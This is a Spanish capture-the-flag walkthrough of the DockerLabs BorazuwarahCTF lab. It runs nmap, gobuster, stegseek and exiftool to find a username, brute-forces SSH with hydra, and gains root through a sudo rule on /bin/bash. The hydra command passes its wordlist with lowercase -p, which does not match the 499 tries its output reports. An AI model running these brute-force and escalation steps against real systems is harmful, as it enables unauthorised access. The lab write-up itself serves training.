

# dockerlabs

## BorazuwarahCTF

Hacemos un SCAN de puertos para empezar

```shell
nmap -p- -T4 --min-rate 5000 -sV 172.17.0.2 
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-17 21:06 -03
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.05 seconds
```

Escaneando el 22 y el 80 mas en detalle vemos

```shell
nmap -p22 -sCV -T4 --min-rate 5000 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-17 21:10 -03
Nmap scan report for 172.17.0.2
Host is up (0.00017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```

```shell
nmap -p80 -sCV -T4 --min-rate 5000 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-17 21:11 -03
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.34 seconds
```

Nos encontramos con una web bastante vacia



Viendo con whatweb obtenemos la siguiente informacion

```shell
http://172.17.0.2 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[172.17.0.2]
```

El codigo fuente es unicamente

```html
<html><body></body></html>
```

Si usamos gobuster tenemos lo siguiente

```shell
gobuster dir -u 172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/apache.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/apache.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 50]
/server-status        (Status: 403) [Size: 275]
Progress: 33 / 34 (97.06%)
===============================================================
Finished
===============================================================
```

Si bajamos la imagen y la tratamos de romper con `stegseek` nos da el siguiente resultado

```shell
stegseek --crack files/imagen.jpeg /usr/share/seclists/Passwords/Leaked-Databases/rockyou-20.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "secreto.txt".
[i] Extracting to "imagen.jpeg.out"
```

Donde al parecer no es esto pero va por este lado

```shell
Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```

Escaneando con `exiftool` nos da el siguiente resultado

```shell
File:FileSize	"19 kB"
File:FileModifyDate	{ "_ctor": "ExifDateTime", "year": 2024, "month": 10, "day": 18, "hour": 0, "minute": 17, "second": 42, "tzoffsetMinutes": 0, "rawValue": "2024:10:18 00:17:42+00:00", "zoneName": "UTC", "inferredZone": false }
File:FileAccessDate	{ "_ctor": "ExifDateTime", "year": 2024, "month": 10, "day": 18, "hour": 0, "minute": 17, "second": 42, "tzoffsetMinutes": 0, "rawValue": "2024:10:18 00:17:42+00:00", "zoneName": "UTC", "inferredZone": false }
File:FileInodeChangeDate	{ "_ctor": "ExifDateTime", "year": 2024, "month": 10, "day": 18, "hour": 0, "minute": 17, "second": 42, "tzoffsetMinutes": 0, "rawValue": "2024:10:18 00:17:42+00:00", "zoneName": "UTC", "inferredZone": false }
File:FilePermissions	"-rw-r--r--"
File:FileType	"JPEG"
File:FileTypeExtension	"jpg"
File:MIMEType	"image/jpeg"
File:ImageWidth	455
File:ImageHeight	455
File:EncodingProcess	"Baseline DCT, Huffman coding"
File:BitsPerSample	8
File:ColorComponents	3
File:YCbCrSubSampling	"YCbCr4:2:0 (2 2)"
JFIF:JFIFVersion	1.01
JFIF:ResolutionUnit	"None"
JFIF:XResolution	1
JFIF:YResolution	1
XMP:XMPToolkit	"Image::ExifTool 12.76"
XMP:Description	"---------- User: borazuwarah ----------"
XMP:Title	"---------- Password: ----------"
Composite:ImageSize	"455x455"
Composite:Megapixels	0.207
```

Tenemos usuario y sabemos que el SSH esta abierto, asi que vamos por un bruteforce

```shell
hydra -l borazuwarah -p /usr/share/seclists/Passwords/500-worst-passwords.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-17 21:38:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-17 21:38:47
```

Si hacemos un `sudo -l` podemos ver que tenemos lo siguiente

```shell
borazuwarah@f6c79269bb59:~$ sudo -l
Matching Defaults entries for borazuwarah on f6c79269bb59:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on f6c79269bb59:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
borazuwarah@f6c79269bb59:~$ 
```

Con simplemente hacer `sudo /bin/bash` ya vamos a estar como root.